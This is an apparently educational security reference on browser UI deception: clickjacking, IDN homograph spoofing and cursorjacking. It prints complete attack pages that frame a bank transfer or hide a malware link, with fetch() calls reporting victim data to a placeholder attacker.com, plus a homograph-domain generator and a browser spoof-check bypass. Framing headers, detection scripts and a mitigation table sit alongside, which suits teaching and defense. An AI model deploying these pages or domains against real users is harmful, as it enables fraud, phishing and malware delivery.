


# The Hostile DOM: Deep Dive Technical Reference

::: danger Offensive Security Research
This document provides **exhaustive technical analysis** of browser-based attack vectors. All code examples are for educational and authorized security research purposes only.
:::

## Document Structure

## Part 2: Visual & UI Deception Attacks

### 2.1 Clickjacking: Weaponizing User Input

Clickjacking exploits the **rendering engine's layering system** to create invisible UI elements that capture user clicks intended for legitimate controls.

#### Z-Index Exploitation Mechanics

The browser rendering engine stacks elements using the `z-index` CSS property. Higher values render "above" lower values, but **click events propagate through the Z-axis**.



#### Attack Implementation: Bank Transfer Clickjack

::: code-group
```html [Complete Attack Page]
<!DOCTYPE html>
<html>
<head>
  <title>Win a Free iPhone!</title>
  <style>
    /* Position the trap precisely over the decoy */
    #trap-container {
      position: absolute;
      top: 200px;
      left: 300px;
      width: 300px;
      height: 100px;
      z-index: 999;
      opacity: 0; /* Invisible to user */
    }
    
    /* The malicious iframe */
    #trap-iframe {
      width: 100%;
      height: 100%;
      border: none;
    }
    
    /* The visible decoy button */
    #decoy-button {
      position: absolute;
      top: 200px;
      left: 300px;
      width: 300px;
      height: 100px;
      z-index: 1; /* Below the trap */
      
      /* Make it enticing */
      background: linear-gradient(45deg, #FF6B6B, #4ECDC4);
      color: white;
      font-size: 24px;
      font-weight: bold;
      border: none;
      border-radius: 10px;
      cursor: pointer;
      box-shadow: 0 5px 15px rgba(0,0,0,0.3);
    }
    
    #decoy-button:hover {
      transform: scale(1.05);
    }
  </style>
</head>
<body>
  <h1>🎁 Congratulations! You've Won!</h1>
  <p>Click the button below to claim your FREE iPhone 15 Pro!</p>
  
  <!-- The trap: invisible iframe pointing to victim's bank -->
  <div id="trap-container">
    <iframe id="trap-iframe" 
            src="https://victim-bank.com/transfer?to=attacker&amount=10000">
    </iframe>
  </div>
  
  <!-- The decoy: what the user thinks they're clicking -->
  <button id="decoy-button">
    🎁 CLAIM YOUR PRIZE!
  </button>
  
  <script>
    // Optional: Track successful clicks
    document.getElementById('trap-iframe').onload = function() {
      // User clicked and the bank responded
      fetch('https://attacker.com/log-success', {
        method: 'POST',
        body: JSON.stringify({
          victim_ip: '{{USER_IP}}',
          timestamp: new Date().toISOString(),
          status: 'transfer_initiated'
        })
      });
    };
  </script>
</body>
</html>
```

```http [Server Response Headers (Defense)]
# Prevent framing entirely
X-Frame-Options: DENY

# More granular control
Content-Security-Policy: frame-ancestors 'none'

# Allow only same-origin framing
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'

# Allow specific domains
Content-Security-Policy: frame-ancestors https://trusted-domain.com
```

```javascript [Client-Side Detection]
// Detect if page is being framed
if (window.self !== window.top) {
  // We are inside an iframe
  
  // Check if parent is malicious
  try {
    // Attempt to access parent origin (will throw if cross-origin)
    const parentOrigin = window.parent.location.origin;
    
    // If we reach here, same-origin framing (potentially malicious)
    console.warn('[!] Page is framed by same-origin:', parentOrigin);
    
  } catch (e) {
    // Cross-origin framing detected
    console.error('[!] Page is framed by unknown origin');
    
    // Break out of the frame
    if (confirm('This page is being framed. Break out?')) {
      window.top.location = window.self.location;
    }
  }
}

// Additional check: opacity-based clickjacking detection
function detectClickjacking() {
  // Check if any iframes have suspicious opacity
  const iframes = document.querySelectorAll('iframe');
  
  iframes.forEach((iframe, index) => {
    const style = window.getComputedStyle(iframe);
    const opacity = parseFloat(style.opacity);
    const zIndex = parseInt(style.zIndex) || 0;
    
    if (opacity < 0.1 && zIndex > 100) {
      console.warn(`[!] Suspicious iframe detected:
        Index: ${index}
        Opacity: ${opacity}
        Z-Index: ${zIndex}
        Source: ${iframe.src}
      `);
      
      // Make it visible for user
      iframe.style.opacity = '1';
      iframe.style.border = '5px solid red';
    }
  });
}

// Run detection on page load and on DOM mutations
detectClickjacking();
const observer = new MutationObserver(detectClickjacking);
observer.observe(document.body, { childList: true, subtree: true });
```
:::

#### Advanced Variant: Double-Iframe Technique

To bypass detection that checks `window.parent`, attackers use **nested iframes**:

```html
<!-- Attacker's page -->
<iframe src="https://attacker.com/middle-frame"></iframe>

<!-- Middle frame (attacker.com/middle-frame) -->
<iframe src="https://victim-bank.com/transfer" style="opacity: 0; z-index: 999;"></iframe>
<button style="z-index: 1;">Click Me!</button>
```

Now `window.parent` points to the middle frame (also attacker-controlled), not the top-level malicious page.

#### Mitigation Strategy Matrix

| Defense Layer | Technique | Effectiveness | Limitations |
|--------------|-----------|---------------|-------------|
| **Server-Side** | `X-Frame-Options: DENY` | High | Doesn't prevent same-origin framing |
| **Server-Side** | `CSP: frame-ancestors 'none'` | Very High | Supersedes X-Frame-Options, broader support |
| **Client-Side** | Frame-busting script | Medium | Can be bypassed with sandbox attributes |
| **Client-Side** | Opacity detection | Low | Easily circumvented with other CSS tricks |
| **Browser** | Confirmation prompts | Medium | User fatigue leads to dismissal |

### 2.2 Homograph Attacks: IDN Spoofing

**Internationalized Domain Names (IDN)** allow non-ASCII characters in URLs. Attackers register domains using **visually identical characters** from different Unicode blocks.

#### Character Substitution Matrix

```javascript
// Homograph character mappings
const HOMOGRAPHS = {
  // Latin -> Cyrillic
  'a': 'а', // U+0061 -> U+0430
  'c': 'с', // U+0063 -> U+0441  
  'e': 'е', // U+0065 -> U+0435
  'o': 'о', // U+006F -> U+043E
  'p': 'р', // U+0070 -> U+0440
  'x': 'х', // U+0078 -> U+0445
  
  // Latin -> Greek
  'A': 'Α', // U+0041 -> U+0391
  'B': 'Β', // U+0042 -> U+0392
  'E': 'Ε', // U+0045 -> U+0395
  'O': 'Ο', // U+004F -> U+039F
  
  // Numbers with similar glyphs
  '0': 'O', // Zero -> Letter O
  '1': 'l', // One -> Lowercase L
  '5': 'S'  // Five -> Letter S
};

// Generate homograph domain
function createHomograph(domain) {
  let spoofed = '';
  for (const char of domain) {
    spoofed += HOMOGRAPHS[char] || char;
  }
  return spoofed;
}

// Example
const legitimate = 'apple.com';
const spoofed = createHomograph(legitimate);

console.log(`Legitimate: ${legitimate}`);
console.log(`Spoofed: ${spoofed}`);
console.log(`Visually Identical: ${legitimate === spoofed ? 'NO' : 'YES (different Unicode)'}`);

// Convert to Punycode (what browsers actually use)
const punycode = require('punycode');
console.log(`Punycode: ${punycode.toASCII(spoofed)}`);
// Output: xn--pple-43d.com
```

#### Real-World Attack Example: Epic Games Phishing

In 2018, attackers registered **epicgames.com** using Cyrillic characters:

```
Legitimate: https://www.epicgames.com
Malicious:  https://www.epicgаmes.com  (note the Cyrillic 'а')
Punycode:   https://www.xn--epicgmes-vwb.com
```

**Attack Flow:**



#### Browser Defenses & Bypasses

Modern browsers attempt to detect homograph attacks using **Unicode confusion detection**:

::: code-group
```javascript [Chrome's Detection Logic]
// Simplified version of Chrome's IDN spoof checker
function isIDNSafe(domain) {
  // Check 1: Mixed scripts (Latin + Cyrillic)
  const hasLatin = /[a-zA-Z]/.test(domain);
  const hasCyrillic = /[\u0400-\u04FF]/.test(domain);
  
  if (hasLatin && hasCyrillic) {
    return false; // UNSAFE: Mixed scripts
  }
  
  // Check 2: Whole-script confusables
  const confusableScripts = ['Cyrillic', 'Greek', 'Armenian'];
  for (const script of confusableScripts) {
    if (isWholeScript(domain, script) && hasLatinLookalikes(domain)) {
      return false; // UNSAFE: All-Cyrillic but looks like Latin
    }
  }
  
  // Check 3: Skeleton comparison
  const skeleton = getSkeleton(domain); // Normalize confusables
  const knownDomains = ['google', 'apple', 'microsoft', 'amazon'];
  
  for (const known of knownDomains) {
    if (skeleton === known) {
      return false; // UNSAFE: Matches known brand
    }
  }
  
  return true; // SAFE
}

// When unsafe, browser shows Punycode instead
function displayDomain(domain) {
  if (isIDNSafe(domain)) {
    return domain; // Show Unicode
  } else {
    return punycode.toASCII(domain); // Show xn--... 
  }
}
```

```javascript [Attack Bypass: Uncommon TLDs]
// Bypass: Use TLDs from same script
// Chrome allows all-Cyrillic if TLD is also Cyrillic

// BLOCKED by Chrome:
// https://аpple.com  (Cyrillic domain + Latin .com)
// Displays as: https://xn--pple-43d.com

// ALLOWED by Chrome:
// https://аpple.рф  (Cyrillic domain + Cyrillic .рф TLD)
// Displays as: https://аpple.рф (Unicode visible!)

// List of Cyrillic TLDs that bypass detection:
const cyrillic_tlds = [
  '.рф',    // Russia
  '.бел',   // Belarus  
  '.қаз',   // Kazakhstan
  '.укр',   // Ukraine
  '.срб'    // Serbia
];

// Attack domain that bypasses Chrome:
const bypass = 'аррӏе.рф'; // All Cyrillic, renders as Unicode
console.log(`Bypass domain: ${bypass}`);
console.log(`Targets victims who speak Russian`);
```
:::

### 2.3 Cursorjacking: Mouse Pointer Manipulation

**Cursorjacking** offsets the visual cursor from the actual mouse position, causing users to click unintended elements.

#### CSS-Based Cursor Offset

::: code-group
```html [Attack Implementation]
<!DOCTYPE html>
<html>
<head>
  <style>
    /* Create a fake cursor image */
    body {
      cursor: none; /* Hide real cursor */
    }
    
    #fake-cursor {
      position: fixed;
      width: 20px;
      height: 20px;
      background: url('cursor-arrow.png');
      pointer-events: none; /* Don't interfere with clicks */
      z-index: 10000;
    }
    
    /* Position malicious button where real cursor is */
    #malicious-link {
      position: absolute;
      top: 0;
      left: 0;
      width: 50px;
      height: 50px;
      opacity: 0; /* Invisible */
    }
  </style>
</head>
<body>
  <h1>Safe Content Here</h1>
  <a href="https://safe-site.com">Click here for info</a>
  
  <!-- Invisible malicious element -->
  <a id="malicious-link" href="https://evil.com/download-malware"></a>
  
  <!-- Fake cursor -->
  <div id="fake-cursor"></div>
  
  <script>
    const fakeCursor = document.getElementById('fake-cursor');
    const maliciousLink = document.getElementById('malicious-link');
    
    // Offset amount in pixels
    const OFFSET_X = 50;
    const OFFSET_Y = 50;
    
    document.addEventListener('mousemove', (e) => {
      // Position fake cursor with offset
      fakeCursor.style.left = (e.clientX + OFFSET_X) + 'px';
      fakeCursor.style.top = (e.clientY + OFFSET_Y) + 'px';
      
      // Position malicious link at REAL cursor location
      maliciousLink.style.left = e.clientX + 'px';
      maliciousLink.style.top = e.clientY + 'px';
    });
    
    // Log successful clicks
    maliciousLink.addEventListener('click', () => {
      fetch('https://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify({
          victim: navigator.userAgent,
          timestamp: Date.now()
        })
      });
    });
  </script>
</body>
</html>
```

```javascript [Detection Script]
// Detect cursorjacking attempts
function detectCursorjacking() {
  const warnings = [];
  
  // Check 1: cursor: none on body
  const bodyStyle = window.getComputedStyle(document.body);
  if (bodyStyle.cursor === 'none') {
    warnings.push('Body has cursor:none - possible cursorjacking');
  }
  
  // Check 2: Fixed position elements with cursor images
  const elements = document.querySelectorAll('*');
  elements.forEach(el => {
    const style = window.getComputedStyle(el);
    
    if (style.position === 'fixed' && 
        style.pointerEvents === 'none' &&
        (style.backgroundImage.includes('cursor') || 
         style.content.includes('cursor'))) {
      warnings.push(`Suspicious fake cursor element: ${el.tagName}`);
    }
  });
  
  // Check 3: Invisible clickable elements
  const links = document.querySelectorAll('a, button');
  links.forEach(link => {
    const style = window.getComputedStyle(link);
    const opacity = parseFloat(style.opacity);
    const display = style.display;
    
    if (opacity < 0.1 && display !== 'none') {
      const rect = link.getBoundingClientRect();
      if (rect.width > 0 && rect.height > 0) {
        warnings.push(`Invisible clickable element: ${link.href || link.textContent}`);
      }
    }
  });
  
  return warnings;
}

// Run detection
const threats = detectCursorjacking();
if (threats.length > 0) {
  console.error('[!] Cursorjacking detected:');
  threats.forEach(t => console.error('  - ' + t));
}
```
:::

#### Hardware Cursor vs. Software Cursor

Browsers render cursors in two ways:
- **Hardware Cursor**: Managed by OS/GPU (cannot be offset by CSS)
- **Software Cursor**: Rendered by browser as a DOM element (vulnerable to offset)

Most browsers use **hardware cursors**, making CSS-based cursorjacking ineffective. However, attackers can force software cursor mode:

```javascript
// Force software cursor rendering
document.body.style.cursor = 'url(data:image/svg+xml,...), auto';
// When using custom cursor URLs, some browsers fall back to software rendering
```

---

